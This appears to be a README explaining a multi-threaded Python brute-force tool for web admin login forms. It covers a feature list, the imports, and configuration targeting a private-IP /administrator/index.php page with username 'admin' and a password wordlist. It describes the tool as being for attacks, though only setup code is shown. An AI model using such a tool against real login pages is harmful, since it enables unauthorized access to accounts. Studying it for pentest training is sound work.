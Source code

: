 ## **📌 Features**
✔ **Multi-threaded (default: 10 threads) for faster attacks**  
✔ **Reads password list from a file (`cain.txt`)**  
✔ **Automatically extracts hidden input fields from the login form**  
✔ **Uses cookies (`http.cookiejar`) to maintain sessions**  
✔ **Supports resuming attacks from a specific word**  
✔ **Detects successful logins by checking page content**  

---

## **📜 Code Explanation**

### **1️⃣ Import Required Modules**
```python
import http.cookiejar
import queue
import threading
import urllib.error
import urllib.parse
import urllib.request
from abc import ABC  # Abstract Base Classes
from html.parser import HTMLParser
```
- **`http.cookiejar`** → Stores and processes cookies  
- **`queue`** → Manages passwords for **multi-threading**  
- **`threading`** → Runs multiple login attempts **simultaneously**  
- **`urllib`** → Handles HTTP requests and form data encoding  
- **`html.parser`** → Extracts hidden form fields from login page  
- **`ABC` (Abstract Base Classes)** → Used for class inheritance  

---

### **2️⃣ Configuration Variables**
```python
user_thread = 10  # Number of concurrent threads
username = "admin"  # Username to brute-force
wordlist_file = "cain.txt"  # Password list file
resume = None  # Resume from a specific password

# Target settings (replace with actual login page)
target_url = "http://192.168.112.131/administrator/index.php"
target_post = "http://192.168.112.131/administrator/index.php"

# HTML form field names
username_field = "username"
password_field = "pswd"

# Success indicator (text found in successful login response)
success_check = "Administration - Control Panel"
```
- **`user_thread`** → Number of parallel brute-force attempts  
- **`username`** → Fixed username for brute-forcing  
- **`wordlist_file`** → List of **passwords to try**  
- **`resume`** → Resume from a specific **password** if interrupted  
- **`target_url`** → Page where the **login form is located**  
- **`target_post`** → Page where the **form submits login data**  
- **`username_field`, `password_field`** → Form **input field names**  
- **`success_check`** → If this text appears after login → **brute-force successful**  

---